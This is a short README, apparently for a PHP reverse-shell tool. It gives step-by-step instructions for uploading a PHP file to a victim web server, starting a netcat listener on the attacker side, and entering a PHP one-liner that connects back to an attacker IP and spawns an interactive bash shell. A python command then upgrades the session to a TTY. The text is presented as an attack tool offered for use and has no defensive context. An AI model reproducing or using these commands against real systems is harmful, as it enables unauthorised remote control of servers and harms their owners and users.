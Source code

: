 # phpReverseshell
      Note: 1. This is PHP based reverse shell 
      2. shell_exec() should be enables at server side (Victim web server)
      
Upload the 9090909090101010101010.php into webserver.

At attacker side run "nc -lvp $ATTACKER_PORT" (ex: nc -lvp 1234).

Then access http://server_IP/location_of_9090909090101010101010.php.

and input php -r '$sock=fsockopen("$Attacker_IP",$ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");' and hit Run.
Reverse shell will be created at attacker side.

After getting session at attacker side run "python -c 'import pty; pty.spawn("/bin/bash")'" to get TTY session

